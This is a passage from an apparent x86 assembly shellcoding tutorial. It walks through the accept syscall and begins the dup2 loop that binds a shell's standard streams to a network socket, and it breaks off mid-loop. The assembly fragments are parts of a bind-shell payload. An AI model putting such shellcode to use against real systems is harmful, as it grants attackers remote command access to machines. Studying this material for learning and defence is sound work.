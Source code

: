 On success, the system call will return in the EAX register a file descriptor for the accepted socket.

**Assembly Code:**

	; EAX
	mov al, 0x66
	; EBX 
	inc ebx 	; 5 for the ACCEPT SYS CALL
	; ECX
	push edi	; NULL - address of the peer 
	push edi	; NULL 	
	push esi	; file descriptor
	mov ecx, esp
	int 0x80

###  <span style="color:#2d8fb3;"> Dup2 </span>

The next step is to redirect the STDIN, STDOUT and STDER to the socket session. The dup2() system call allocate a new file descriptor that refers to the same open file description as the descriptor oldfd. The file descriptor newfd is ajusted so that it refers to the same open file desdcription as oldfd. 

    root@kali:~# cat /usr/include/x86_64-linux-gnu/asm/unistd_32.h | grep dup2
        #define __NR_dup2 63

-

    man 2 dup2
    int dup2(int oldfd, int newfd)

The function is composed of:

1) int oldfd : File descriptor returned by the accept syscall

2) int newfd : File descriptor that we want to refer to

We will pass the following arguments :
- EAX : 0x3f (dup syscall, 63 in decimal)
- EBX : Previous EAX (File descriptor returned by the accept call)
- ECX : 0x2 to 0x0 (loop IN, OUT, ERR)

To perform the loop, we will use the intruction "JNS rel8" because it perform the jmp until the Sign Flag is set (SF=1), which mean that the zero is taken into account in the loop :

**Assembly Code:**
    
        ; EBX, File descriptor return by ACCEPT call
	    mov ebx, eax	; Retrieve the file descriptor
	
	    ; EAX, dup2 sys call 0x3f
	    xor eax, eax
	
	    ; initialize ECX 
	    xor ecx, ecx
	    mov cl, 0x2
	
	    ; LOOP
